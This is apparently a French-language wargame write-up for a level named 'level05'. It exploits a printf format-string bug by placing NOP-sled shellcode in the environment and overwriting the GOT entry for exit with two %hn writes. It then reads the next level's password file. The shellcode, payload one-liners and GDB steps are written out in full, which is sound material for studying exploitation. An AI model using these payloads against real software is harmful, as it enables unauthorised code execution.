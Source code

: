 Ici notre binaire prend un input sur le stdin puis va utiliser toLower() sur notre chaine et va ensuite printf notre chaine directement en argument.

On peut utiliser un format string attack, overwrite l'adresse de exit dans le GOT et le remplacer par un shellcode fourni dans notre environment.

tout d'abord exportont notre Nop-Sled
` export SHELLCODE=`python -c "print('\x90'*1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')"` `

Sachant que les adresse contenant l'environment se situe 16 bits au dessus de EBP nous pouvont trouver l'adresse de notre shellcode en utilisant GDB.

``` 
x $ebp+0x10
x 0xffffd39c
x/128w 0xffffd4db

```

On retrouve bien notre Nop-Sled ( \x90 .... )
On va donc choisir une adresse dans notre Nop-Sled afin de placer celle-ci dans le GOT
ce sera 0xffffd64b

Maintenant on veut l'adresse du GOT

` readelf -r ./level05 `
Ce qui nous donne 0x080497e0

Nous devons donc ecrire 0xffffd64b dans 0x080497e0 mais 0xffffd64b vaut 4294956619 ce qui est plus que le int max, donc nous ne pouvons pas utiliser %4294956619d.
On va devoir ecrire en 2x dans notre adresse d'abord a 0x080497e0 et apres 0x080497e2.
On ecrit la parti basse 0xd64b puis la parti haute 0xffff, mais pour finir il nous faut l'emplacement du buffer.

` python -c "print('AAAA' + ' %p '*13)" | ./level05 `

Notre buffer est le 10eme emplacement ( %10\$p )

` python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%10\$p' + ' %11\$p')" | ./level05 `

Enfin nous voulons ecrire en premier 0xd64b soit 54859 ( attention a bien enlever 8 car nous ecrivont 2 adresse avant ) avec %54859d%10\$hn a noter que l'on utilise h c'est un lenght modifier de printf signifiant half alias short car on souhaite dans notre cas ecrire que 2 byte.

et pour ecrire 0xffff on doit ecire 65535, sachant que nous avons deja ecrit 54859 caractere ils nous reste que 10676 a ecrire
` 65535 - 54859 = 10676 `
En utilisant %10676d11\$hn

On rajoute cat a la fin pour garder le stdin ouvert et nous obtenons:

` (python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' '%54851d%10\$hn' + '%10676d%11\$hn')"; cat) | ./level05 `

` cat /home/users/level06/.pass `
